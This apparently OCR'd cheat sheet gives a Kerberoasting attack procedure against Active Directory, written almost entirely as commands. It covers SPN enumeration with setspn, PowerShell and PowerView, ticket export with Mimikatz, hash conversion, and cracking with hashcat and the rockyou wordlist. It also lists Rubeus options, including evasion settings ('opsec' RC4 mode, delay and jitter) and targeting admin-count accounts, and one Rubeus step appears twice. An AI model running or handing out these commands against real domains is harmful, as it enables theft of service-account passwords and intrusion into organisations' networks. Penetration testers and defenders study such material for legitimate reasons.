 ### **STEP 1: PREPARATION AND SPN ENUMERATION**

1.  List all Service Principal Names (SPNs) in the domain:  
    `setspn.exe -Q */*`
2.  Add .NET Framework class to PowerShell session:  
    `Add-Type -AssemblyName System.IdentityModel`
3.  Request a Ticket Granting Service (TGS) ticket for a specific SPN:  
    `New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-SQL-hackfast.example.local:1433"`
4.  Retrieve all tickets:  
    `setspn.exe -T EXAMPLE.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }`

### **STEP 2: EXPORT AND PREPARE KERBEROS TICKETS**

5.  Use Mimikatz to list and export Kerberos tickets:  
    `mimikatz # kerberos::list /export`
6.  Convert tickets to base64 for easier transport:  
    `mimikatz # base64 /out:true`
7.  Remove new lines and spaces:  
    `echo "[BASE64 BLOB]" | tr -d \\n`
8.  Save the blob to a .kirbi file:  
    `cat encoded_file | base64 -d > sqldev.kirbi`

### **STEP 3: EXTRACT AND CRACK THE KERBEROS TICKET**

9.  Extract the Kerberos ticket using kirbi2john.py:  
    `python2.7 kirbi2john.py sqldev.kirbi > crack_file`
10. Modify the file for Hashcat:  
    `sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat`
11. Confirm the prepared hash:  
    `cat sqldev_tgs_hashcat`
12. Crack the hash with Hashcat:  
    `hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt`

### **POWERVIEW FOR SPN ENUMERATION AND TICKET EXTRACTION**

1.  Import PowerView:  
    `Import-Module .\PowerView.ps1`
2.  List domain users with SPNs:  
    `Get-DomainUser * -spn | select samaccountname`
3.  Get SPN tickets for a specific user and format for Hashcat:  
    `Get-DomainUser -Identity [USERNAME] | Get-DomainSPNTicket -Format Hashcat`

### **RUBEUS FOR ADVANCED KERBEROASTING TECHNIQUES**

1.  Perform Kerberoasting and output hashes to a file:  
    `.\Rubeus.exe kerberoast /outfile:hashes.txt`
    
2.  Perform Kerberoasting with alternate credentials:  
    `.\Rubeus.exe kerberoast /creduser:DOMAIN.FQDN\USER /credpassword:PASSWORD`
    
3.  Perform Kerberoasting with an existing TGT:  
    `.\Rubeus.exe kerberoast /ticket:BASE64 | /ticket:FILE.KIRBI`
    
4.  Perform "opsec" Kerberoasting:  
    `.\Rubeus.exe kerberoast /rc4opsec`
    
5.  Perform "opsec" Kerberoasting:  
    `.\Rubeus.exe kerberoast /rc4opsec`
    
6.  Request tickets for accounts with an admin count of 1:  
    `.\Rubeus.exe kerberoast /ldapfilter:'admincount=1'`
    
7.  Perform Kerberoasting with a delay and jitter:  
    `.\Rubeus.exe kerberoast /delay:5000 /jitter:30`